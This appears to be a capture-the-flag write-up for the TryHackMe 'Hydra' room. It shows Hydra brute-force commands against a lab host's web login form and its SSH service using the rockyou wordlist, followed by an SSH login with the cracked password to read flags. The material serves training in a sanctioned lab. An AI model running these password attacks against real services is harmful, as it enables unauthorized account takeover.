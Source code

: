 # Hydra
+ Link: https://tryhackme.com/r/room/hydra
+ Target IP Address: 10.10.50.153

## Tools
+ Hydra

## External Resources
+ https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

## Task 1
1. Went to http://10.10.50.153 and looked at the source code. Found it uses the POST method.
2. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V` to find the web form password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/1.png)
  
3. Logged into the website using the given username and the hydra-ed password to find the flag.
4. `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.50.153 -t 4 ssh` to find the SSH password.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/2.png)
  
5. `ssh molly@10.10.50.153` with password butterfly.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room03/Screenshots/3.png)
  
6. `ls` and `cat <file name>` to display the flag.

## Learned
+ Generally, don't use `-V` in Hydra, because it makes the output less readable.